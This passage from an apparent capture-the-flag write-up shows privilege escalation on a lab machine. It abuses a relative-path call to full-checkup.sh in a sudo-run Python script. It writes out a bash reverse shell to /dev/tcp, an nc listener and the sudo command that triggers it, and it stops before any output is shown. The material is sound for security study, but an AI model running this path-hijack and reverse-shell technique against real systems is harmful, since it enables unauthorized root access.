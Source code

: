 ## Privilege Escalation
### Reading system-checkup.py source code

Now under scripts, we can see what is likely the `system-checkup.py` we had been executing:

![Scripts Repository](Images/scripts.png)

With the source code in hand, we can clearly see a very serious oversight in the code:
```
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```
When running full-checkup, the `full-checkup.sh` is not using the absolute path. Meaning, we can create our own `full-checkup.sh` in a current working directory, execute full-checkup as root, and our own `full-checkup.sh` will be ran instead.

### Abusing File Path Manipulation
First I enter a directory where i can write files:
```
svc@busqueda:~$ cd /dev/shm
svc@busqueda:/dev/shm$
```
Next, I create a simple reverse shell script under the name `full-checkup.sh`:
```
svc@busqueda:/dev/shm$ cat full-checkup.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.139/8888 0>&1
```
On my kali machine, I set up a listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
```
And finally, I run the sudo command:
```
svc@busqueda:/dev/shm$ chmod +x full-checkup.sh 
svc@busqueda:/dev/shm$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
Back on my listening session:
```
```